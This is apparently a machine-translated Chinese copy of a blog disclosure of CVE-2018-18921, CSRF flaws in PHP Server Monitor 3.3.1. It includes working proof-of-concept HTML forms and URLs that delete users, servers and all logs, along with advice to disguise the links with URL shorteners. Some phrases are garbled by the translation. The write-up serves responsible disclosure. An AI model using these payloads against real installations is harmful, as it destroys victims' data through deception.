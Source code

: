 # CVE-2018–18921 PHP 服务器监视器 3 . 3 . 1-跨站点请求伪造

> 原文：<https://infosecwriteups.com/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery-a73e8dae563?source=collection_archive---------1----------------------->

![](img/7fc0453e9b0541793ee25ef6ce768430.png)

👋又见面了，伙计们

最近，我花了一点空闲时间来审计开源软件，主要是那些基于网络的软件。

这次我想和大家分享一些我在 PHP 服务器监控 **3.3.1** 开源软件中发现的**跨站请求伪造(CSRF)，希望以后能和大家分享更多。**

# 什么是 CSRF？

跨站点请求伪造是一种恶意技术，其中**未经授权的命令从 web 应用程序信任的用户**处传输。

因此，如果我们让应用程序的用户执行我们预先准备好的有效负载，我们将成功利用此漏洞。😉

![](img/9f69806d77a0f105212908cf94346ba1.png)

例如，CSRF 袭击

# 关于 PHP 服务器监视器

![](img/6cfc3f55546522fe1812a363b23b4113.png)

PHP 服务器监视器是一个脚本，**检查你的网站和服务器是否启动并运行**。它配有一个基于网络的用户界面**，您可以在其中管理您的服务和网站，并且您可以通过手机号码和电子邮件地址管理每台服务器的用户。**

# 我是如何发现 CSRF 漏洞的？

我必须说，CSRF 漏洞**是我在审计**中看到的最后一件事，但在这种情况下，我是偶然发现它们的…

在第一阶段，当试图查看请求响应中反映的参数以利用可能的跨站点脚本(XSS)时，我观察到创建用户和服务器的**动作具有反 CSRF 令牌。**😢

![](img/2d06110c44d29b3e1119f21991ddabb0.png)

创建用户的请求示例，我们看到了反 CSRF 令牌

当我观察它的时候，**我起初丢弃了这种漏洞**并且我一直在寻找反射的参数，**但是后来我看到了下面的…**

![](img/7b6439f7ae856c1b4fa78dd2c1439ad7.png)

删除服务器页面

😲哇！！！用于删除服务器的**按钮缺少反 CSRF 令牌**，也需要通过 GET 请求。

这种错误配置**将允许攻击者生成恶意的有效载荷，它应该用网址缩写**(谷歌缩写或类似的)隐藏起来。

![](img/9df5192f96a9d5789f26e27cc6ef92bf.png)

✔️[更新到**版本 3.3.2** 到](https://github.com/phpservermon/phpservermon/releases/tag/v3.3.2)停止青蛙。

# 概念证明(POC)

在下面，**屏幕被分成了两个部分**，在左侧，管理面板中有一个用户，在右侧，攻击者生成了一个先前配置的恶意按钮来执行操作。

**CSRF 1 —删除用户**

*方法 1*

使用 Google URL Shortener(或者类似的)来缩短下一个 url (http://[PATH]/？&**mod**=用户& **动作**=删除&**ID**=**【ID】**发送给受害者。

*方法二*

使用下一个表格并将其发送给受害者。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[PATH]/">
      <input type="hidden" name="mod" value="user" />
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="id" value="[ID]" />
      <input type="submit" value="Delete User" />
    </form>
  </body>
</html>
```

![](img/7c28d8edb05db316bdd23d44d15f7afa.png)

PoC —删除用户

**CSRF 新协议—删除服务器**

*方法一*

使用 Google URL Shortener(或者类似的)来缩短下一个 url (http://[PATH]/？&**mod**= server&**action**= delete&**ID**=**【ID】**发送给受害者。

*方法二*

使用下一张表格并将其发送给受害者。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[PATH]/">
      <input type="hidden" name="mod" value="server" />
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="id" value="[ID]" />
      <input type="submit" value="Delete Server" />
    </form>
  </body>
</html>
```

![](img/1e5e291fcc7067e684c29572b235ea22.png)

PoC —删除服务器

**CSRF 3 —删除所有日志**

*方法一*

使用 Google URL Shortener(或者类似的)来缩短下一个 url (http://[PATH]/？&**mod**= server _ log&**action**= delete)发送给受害者。

*方法二*

使用下一张表格并将其发送给受害者。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[PATH]/">
      <input type="hidden" name="mod" value="server&#95;log" />
      <input type="hidden" name="action" value="delete" />
      <input type="submit" value="Delete All Logs" />
    </form>
  </body>
</html>
```

![](img/62f6e27f986f0dbedca426691aa8c158.png)

PoC —删除所有日志

# 时间表

**30/10/2018** 发现[上报](https://github.com/phpservermon/phpservermon/issues/670)

**01/11/2018** 请求 [CVE ID](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18921)

**2018 年 11 月 22 日** [打补丁](https://github.com/phpservermon/phpservermon/releases/tag/v3.3.2)

**28/11/2018** 公开披露

# 参考

[](https://github.com/phpservermon/phpservermon/issues/670) [## [安全]发现的漏洞问题#670 phpservermon/phpservermon

### 你好，请问，我如何报告漏洞？问候

github.com](https://github.com/phpservermon/phpservermon/issues/670) [](https://hackpuntes.com/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/) [## CVE-2018–18921 PHP 服务器监视器 3 . 3 . 1-跨站点请求伪造-黑客攻击

### Las vulnerabilidades 跨站点请求伪造(CSRF)encontradas en El software PHP Server Monitor 3 . 3 . 1 Han quedado…

hackpuntes.com](https://hackpuntes.com/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/) [](https://www.exploit-db.com/exploits/45932) [## 攻击性安全利用数据库档案

### PHP 服务器监视器 3.3.1 —跨站点请求伪造..PHP 平台的 webapps 漏洞

www.exploit-db.com](https://www.exploit-db.com/exploits/45932) 

关注我 [**Twitter**](https://twitter.com/JJavierOlmedo) 和 [**LinkedIn**](https://www.linkedin.com/in/jjavierolmedo/) ！

祝你黑客生涯愉快，下次再见。

# 感谢[所有信息安全的贡献者](https://medium.com/bugbountywriteup/about)让我向他们学习